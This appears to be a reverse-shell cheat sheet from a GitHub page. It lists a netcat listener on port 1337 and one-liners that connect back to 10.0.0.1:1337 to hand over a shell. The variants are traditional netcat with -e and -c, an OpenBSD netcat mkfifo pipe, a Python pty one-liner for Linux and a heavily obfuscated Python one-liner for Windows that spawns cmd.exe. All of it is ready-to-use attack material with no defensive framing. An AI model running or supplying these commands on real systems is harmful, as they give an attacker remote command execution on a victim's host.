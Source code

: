 ### Listener
```bash
rlwrap nc -lvnp 1337
```

### Netcat/nc Traditional

```bash
nc -e /bin/sh 10.0.0.1 1337
nc -e /bin/bash 10.0.0.1 1337
nc -c /bin/bash 10.0.0.1 1337
```

### Netcat/nc OpenBSD

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1337 >/tmp/f
```

### Python

Linux:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Windows:
```bash
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 1337)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

